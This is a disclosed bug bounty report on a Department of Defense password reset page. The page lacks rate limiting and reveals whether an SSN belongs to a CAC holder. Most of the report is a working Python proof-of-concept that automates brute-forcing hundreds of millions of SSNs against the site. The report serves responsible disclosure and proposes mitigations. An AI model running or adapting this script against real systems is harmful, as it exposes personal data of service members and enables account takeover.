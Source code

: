 # Lack of rate limiting in https://███/PKI/PassReset.aspx leads to PII disclosure and potential account takeover

## Report Details
- **Report ID**: 2748003
- **URL**: https://hackerone.com/reports/2748003
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-09-29T13:44:30.224Z
- **Disclosed**: 2024-10-25T16:05:12.582Z

## Reporter
- **Username**: hypervis0r
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
The password reset functionality of AFPC Secure is intended to be used by users who do not have a PKI credential for AFPC secure. It allows a user to provide their SSAN and Mother's Maiden Name to reset their password. The issue lies in the fact that if an SSAN for a user with an active PKI credential is found, the system will inform the user of that fact with the following error message:
```
Your account was found, but our records indicate you are either Military, Civilian, or a Contractor with a CAC, which you must use to reset your password. For more information, please click the link above labeled "Help with accessing AFPCSecure using a CAC"
```

Additionally, there is no rate limiting done for this site, meaning an attacker can brute force through approximately 772,000,000 social security numbers to find SSANs for active U.S. Air Force personnel. Furthermore, if any SSANs are found that aren't tied to active PKI credentials (i.e. authorized UserId/Password users, POW-MIA Next of Kin users), an attacker could potentially trigger a password reset by brute forcing the mother's maiden name field (for example, going through most common last names).

Please see the steps to reproduce for a proof-of-concept script that brute forces SSANs with the password reset functionality.

## Impact

This vulnerability can lead to the exposure of personally identifiable information for U.S. Air Force personnel, and can potentially lead to an account takeover in the right circumstances.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
See the following Python script for a proof-of-concept. The script will brute force through 772,000,000 SSANs by default, you can adjust the minimum and maximum search range on line 87. Uncomment line 84 to do a single SSAN search.

```python
import requests
from tqdm import tqdm
from bs4 import BeautifulSoup
import urllib
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Get all the hidden ASP.NET inputs
def __get_hidden_input(content):
    """ Return the dict contain the hidden input 
    """
    tags = dict()
    soup =BeautifulSoup(content, 'html.parser')
    hidden_tags = soup.find_all('input', type='hidden')
    # print(*hidden_tags)
    for tag in hidden_tags:
        tags[tag.get('name')] = tag.get('value')
    
    return tags

url = "https://█████"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.6613.120 Safari/537.36"}

session = requests.Session()

# Simulate ASP.NET post back function
def doPostBack(url, data):
    resp = session.get(url, headers=headers, verify=False)
    asp_info = __get_hidden_input(resp.text)

    asp_info.update(data)

    return session.post(url,  data=asp_info, headers=headers, verify=False)

# Click check portal button
data = {"btnOK": "OK"}
resp = doPostBack(url + "/CheckPortal.aspx", data)

# Go to forgot password page
data = {"__EVENTTARGET": "ctl00$cphPage$btnForgotPassword"}
resp = doPostBack(url + "/PKI/default.aspx", data)

# Go to password reset page
data = {"ctl00$cphPage$btnPOW": "Online Password Reset"}
resp = doPostBack(url + "/PKI/PassReset1.aspx", data)
print(resp.text)

# Get the ASP.NET inputs for the password reset page
asp_info = __get_hidden_input(resp.text)

def range_search(min=0, max=772000000):
    for ssan in tqdm(range(min, max)):
        data = asp_info
        data["ctl00$cphPage$txtSSAN"] = str(ssan).zfill(9)
        data["ctl00$phPage$txtMMN"] = "NONEXISTANT"
        data["ctl00$cphPage$btnSubmit"] = "Submit"

        resp = session.post(url + "/PKI/PassReset.aspx", data=data, verify=False, allow_redirects=False)

        if resp.status_code != 200:
            print(f"!! Error, resp code {resp.status_code}\n{resp.text}")

        if ("SSAN Does not match a ssan in our records." not in resp.text):
            print(f"[+] Found potential SSAN: {str(ssan).zfill(9)}")

def single_search(ssan):
    data = asp_info
    data["ctl00$cphPage$txtSSAN"] = str(ssan).zfill(9)
    data["ctl00$phPage$txtMMN"] = "NONEXISTANT"
    data["ctl00$cphPage$btnSubmit"] = "Submit"

    resp = session.post(url + "/PKI/PassReset.aspx", data=data, verify=False, allow_redirects=False)
    
    print(resp.text)

    if resp.status_code != 200:
        print(f"!! Error, resp code {resp.status_code}\n{resp.text}")

    if ("SSAN Does not match a ssan in our records." not in resp.text):
        print(f"[+] Found potential SSAN: {str(ssan).zfill(9)}")

# Single search, provide SSAN to test
#single_search(555001337)

# Range search, specify min/max to set range
range_search()
```

## Suggested Mitigation/Remediation Actions
Implement a rate limit for https://███████/. Additionally, adjust the error message to not give out more information than necessary.



## Attachments
No attachments
